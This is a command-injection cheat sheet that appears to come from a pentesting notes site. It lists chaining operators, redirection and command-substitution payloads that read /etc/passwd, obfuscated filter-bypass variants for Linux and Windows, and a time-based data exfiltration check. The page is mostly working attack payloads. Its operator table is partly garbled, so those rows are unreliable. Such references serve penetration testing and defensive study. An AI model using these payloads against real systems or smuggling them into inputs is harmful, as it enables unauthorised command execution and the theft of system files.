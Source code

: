 # Command Injection

## <mark style="color:red;">Command Chaining</mark> <a href="#command-chaining" id="command-chaining"></a>

```sh
<input>; ls
<input>& ls
<input>&& ls
<input>| ls
<input>|| ls
```

{% hint style="info" %}
Also try:

* Prepending a flag or parameter.
* Removing spaces (`<input>;ls`).
{% endhint %}

#### Chaining Operators <a href="#chaining-operators" id="chaining-operators"></a>

Windows and Unix supported.

|       | Syntax          | Description                                      |
| ----- | --------------- | ------------------------------------------------ |
| `%0A` | `cmd1 %0A cmd2` | Newline. Executes both.                          |
| `;`   | `cmd1 ; cmd2`   | Semi-colon operator. Executes both.              |
| `&`   | `cmd1 & cmd2`   | Runs command in the background. Executes both.   |
| \`    | \`              | \`cmd1                                           |
| `&&`  | `cmd1 && cmd2`  | AND operator. Executes `cmd2` if `cmd1` succeds. |
| \`    |                 | \`                                               |

## <mark style="color:red;">I/O Redirection</mark> <a href="#io-redirection" id="io-redirection"></a>

```sh
> /var/www/html/output.txt
< /etc/passwd
```

## <mark style="color:red;">Command Substitution</mark> <a href="#command-substitution" id="command-substitution"></a>

Replace a command output with the command itself.

```sh
<input> `cat /etc/passwd`
```

```sh
<input> $(cat /etc/passwd)
```

## <mark style="color:red;">Filter Bypassing</mark> <a href="#filter-bypassing" id="filter-bypassing"></a>

### <mark style="color:blue;">Space filtering</mark> <a href="#space-filtering-spaceless-ifs" id="space-filtering-spaceless-ifs"></a>

**Linux**

```sh
cat</etc/passwd
# bash
${cat,/etc/passwd}
cat${IFS}/etc/passwd
v=$'cat\x20/etc/passwd'&&$v
IFS=,;`cat<<<cat,/etc/passwd`
```

**Windows**

```ps
ping%CommonProgramFiles:~10,-18%IP
ping%PROGRAMFILES:~10,-5%IP
```

### <mark style="color:blue;">Slash (</mark><mark style="color:blue;">`/`</mark><mark style="color:blue;">) filtering</mark> <a href="#slash--filtering" id="slash--filtering"></a>

```sh
echo ${HOME:0:1} # /
cat ${HOME:0:1}etc${HOME:0:1}passwd
```

```sh
echo . | tr '!-0' '"-1' # /
cat $(echo . | tr '!-0' '"-1')etc$(echo . | tr '!-0' '"-1')passwd
```

### <mark style="color:blue;">Command filtering</mark> <a href="#command-filtering" id="command-filtering"></a>

Quotes.

```sh
w'h'o'am'i
w"h"o"am"i
```

Slash.

```sh
w\ho\am\i
/\b\i\n/////s\h
```

At symbol.

```sh
who$@ami
```

Variable expansion.

```sh
v=/e00tc/pa00sswd
cat ${v//00/}
```

Wildcards.

```ps
powershell C:\*\*2\n??e*d.*? # notepad
@^p^o^w^e^r^shell c:\*\*32\c*?c.e?e # calc
```

## <mark style="color:red;">Time Based Data Exfiltration</mark> <a href="#time-based-data-exfiltration-time-based-rce" id="time-based-data-exfiltration-time-based-rce"></a>

```sh
time if [ $(uname -a | cut -c1) == L ]; then sleep 5; fi
```
